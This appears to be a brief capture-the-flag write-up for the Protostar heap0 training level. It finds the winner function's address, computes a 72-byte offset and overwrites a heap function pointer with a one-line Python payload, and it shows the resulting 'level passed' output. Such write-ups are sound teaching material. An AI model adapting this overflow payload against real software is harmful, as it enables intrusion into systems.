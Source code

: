 First, determine memory position of functions:

user@protostar:/opt/protostar/bin$ objdump -D heap0 | grep winner
08048464 <winner>:
08048478 <nowinner>:

Now, the goal is to overflow "data" and put winner function address into "fp".

To detrmine offset, the program conviniently prints addresses for "data" and "fp":

user@protostar:/opt/protostar/bin$ ./heap0 AAA
data is at 0x804a008, fp is at 0x804a050

0x50 - 0x08 = 0x48 = 72 decimal

payload:

user@protostar:/opt/protostar/bin$ ./heap0 $(python -c "print 'A'*72 + '\x64\x84\x04\x08'")
data is at 0x804a008, fp is at 0x804a050
level passed